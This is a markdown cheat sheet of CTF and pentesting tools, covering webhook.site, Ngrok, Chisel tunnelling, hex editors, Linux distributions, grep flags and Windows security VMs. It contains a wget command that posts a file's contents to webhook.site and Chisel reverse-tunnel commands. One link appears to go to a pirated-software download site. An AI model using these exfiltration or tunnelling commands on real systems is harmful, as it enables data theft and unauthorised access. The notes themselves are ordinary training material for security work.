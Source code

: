 # Common tools

## Misc

- https://webhook.site

  - receive remote connections
  - `wget https://webhook.site/[id] --post-data="$(cat flag)"`

- [Ngrok](https://ngrok.com/)
  - reverse proxy, connect localhost and internet
- [Chisel](https://github.com/jpillora/chisel)
  - A fast TCP/UDP tunnel over HTTP
  - example use:
    - server:
      - `./chisel server -p 8001 --reverse`
    - client:
      - `./chisel client 10.10.14.13:8001 R:socks`
      - commonly used inside of docker container to tunnel unexposed service to our local environment
        - use proxy 1080 in local browser to find docker ip 172.17.0.1 directly, or whatever port is required, 172.17.0.1:3000
        - might have to add the ip 172.17.0.1 to /etc/hosts

## Quality of life

- [unf](https://github.com/io12/unf) - UNixize Filename
- [tldr](https://github.com/tldr-pages/tldr)
- [navi](https://github.com/denisidoro/navi)

  - `navi --cheatsh nmap`

- [HxD](https://mh-nexus.de/en/hxd/) - hex editor
- [010 Editor](https://getintopc.com/softwares/text-editors/sweetscape-010-editor-2022-free-download/) - hex editor

## Operating systems

### Linux

- [Kali](https://www.kali.org/)
- [Blackarch](https://blackarch.org/)

- grep
  - `-r`, recursive
  - `-E`, regex
  - `-i`, case insensitive
  - `-v`, invert match, exclude
  - `grep "10.10.10.12" file.log | grep -v "gobuster"`

### Windows

- [Flare VM](https://github.com/mandiant/flare-vm)
- [Commondo VM](https://github.com/mandiant/commando-vm)

